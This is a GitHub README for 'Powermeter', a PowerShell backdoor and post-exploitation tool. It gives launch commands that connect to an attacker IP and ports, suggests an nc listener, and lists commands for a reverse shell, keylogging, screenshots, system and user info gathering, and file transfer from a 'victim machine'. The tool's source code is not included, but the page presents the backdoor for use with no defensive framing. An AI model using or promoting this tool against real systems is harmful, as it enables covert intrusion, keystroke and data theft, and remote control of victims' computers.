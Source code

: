 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality. It will be fixed soon :=)

## How to run?

	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

In main module:

Powermeter>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.

In reverse shell module:

Powermeter>reverse_shell>show options

Options
=============

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

